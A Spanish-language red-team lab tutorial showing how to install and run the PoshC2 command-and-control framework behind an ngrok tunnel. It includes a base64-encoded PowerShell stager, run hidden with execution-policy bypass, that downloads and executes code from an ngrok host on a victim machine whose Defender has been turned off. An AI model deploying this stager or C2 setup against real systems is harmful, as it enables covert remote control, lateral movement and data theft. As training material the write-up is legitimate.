# Configuración de Comando y Control con Poshc2

Recientemente termine un curso de Red Team con los amigos de https://www.open-sec.com/ donde pude realizar diversos laboratorios en cada una de las fases de Red Team, en este artículo quisiera compartirles la implementación de un Comando y Control (C&C) y  nos enfocaremos en este punto, por tanto quedará por fuera los pasos previos y posteriores.



**Fuente:** https://securityaffairs.co/wordpress/34883/hacking/prevent-data-exfiltration.html

### Requisitos

- [VPS de Preferencia Ubuntu Server 20.04](https://www.vultr.com/?ref=8403796-6G)
- Una máquina virtual de Windows 10 como víctima
- Una cuenta de [ngrok](https://www.nubetia.com/que-es-ngrok/) 

### Table de Contenido

1. Introducción
2. Características Principales
3. Instalación PoshC2
4. Postexplotación

1. #### Introducción

   PoshC2 es un framework de postexplotación de código abierto que está disponible públicamente en GitHub. Los componentes del lado del servidor de la herramienta están escritos principalmente en Python, mientras que los implantes están escritos en PowerShell. Aunque PoshC2 se centra principalmente en la implantación de Windows, contiene droppers de Python básico para Linux/macOS.

2. #### Características Principales

   * Módulos en C#, Powershell y Python
   * Altamente extensible
   * Payloads en PowerShell v2 y v4, C++ y C#, ejecutables y DLLs, código fuente de shellcode y Python3 para funcionalidad básica de C2 en Linux y MacOS.
   * Características para trabajo en equipo
   * En la versión actual no es tan adecuado como en la primera
     * Reportes de las actividades
     * Alto ratio de éxito en las campañas de red teaming
     * También, reconocido en los APT > Hay que personalizar más
     * El Server puede ejecutar en forma interactiva o como servicio

3. #### Instalación Poshc2

   Primero accedemos a nuestro vps, actualizamos los repositorios y ejecutamos el instalador

   ```bash
   apt update
   curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | bash
   ```

   

Al terminar observaremos el siguiente mensaje, sin embargo debemos verificar algunos avisos de fallos de dependencias.



Debemos instalar los siguientes repositorios:

* dotnet-runtime
* libicu63
* mono-devel



Procedemos a instalar las dependencias, debe ser instalado en el siguiente orden

```bash
wget http://ftp.us.debian.org/debian/pool/main/i/icu/libicu57_57.1-6+deb9u4_amd64.deb
dpkg -i libicu57_57.1-6+deb9u4_amd64.deb
apt-get installl dotnet-sdk-2.2 
```

Procedemos a configurar Ngrok, ya debemos tener creada nuestra cuenta, para luego realizar la configuración del token 

```bash
curl -L https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.tgz -o ngrok-stable-linux-amd64.tgz
tar -xvzf ngrok-stable-linux-amd64.tgz 
./ngrok authtoken token_cuenta
```



Una vez hemos realizado la configuración vamos a iniciar nuestro túnel de ngrok

```bash
./ngrok http 8080
```




Ahora vamos a crear un proyecto en Poshc2

```bash
 posh-project  -n backtrack-poshc2
```



Procedemos a configurar nuestro poshc2 para que utilice el dominio de ngrok para las comunicación de los payloads, escribimos el comando

```
posh-config
```



Vamos a iniciar el Servidor en una ventana  y el cliente en otra

```bash
posh-server
```



Para iniciar el cliente usamos el siguiente comando

```bash
posh
```




Finalmente debemos tener el servidor de poshc2 arriba el cliente logueado y el túnel de ngrok creado




4. #### Postexplotación

Para el siguiente paso asumiremos hemos comprometido el equipo víctima en el cual desactivamos el Windows defender.

Ejecutamos el payload en powershell

```powershell
powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBTAGUAcgB2AGUAcgBDAGUAcgB0AGkAZgBpAGMAYQB0AGUAVgBhAGwAaQBkAGEAdABpAG8AbgBDAGEAbABsAGIAYQBjAGsAIAA9ACAAewAkAHQAcgB1AGUAfQA7ACQATQBTAD0AWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADIAOQBiADcALQAyADEANgAtADIAMwA4AC0AOAAwAC0AMgAzADEALgBuAGcAcgBvAGsALgBpAG8ALwBjAGwAYQBzAHMAcgBvAG8AbQAvAHMAaABhAHIAZQB3AGkAZABnAGUAdAAvAHcAaQBkAGcAZQB0AF8AcwB0AGEAYgBsAGUALgBoAHQAbQBsAC8AXwByAHAAJwApACkAKQA7AEkARQBYACAAJABNAFMA
```



Al ejecutar el payload se nos cerrará la ventana por el modo que usamos



Luego debemos ver la conexión en el servidor y el cliente del poshc2



Con esto podemos ya realizar búsquedas de información que nos permitan un movimiento lateral o una exfiltración según sea nuestro objetivo. Del lado izquierdo en el servidor nos devuelve la información solicitada en el cliente.



Para más información sobre el uso de la herramienta recomendamos los documentos oficiales en la siguiente dirección https://readthedocs.org/projects/poshc2/downloads/pdf/stable/

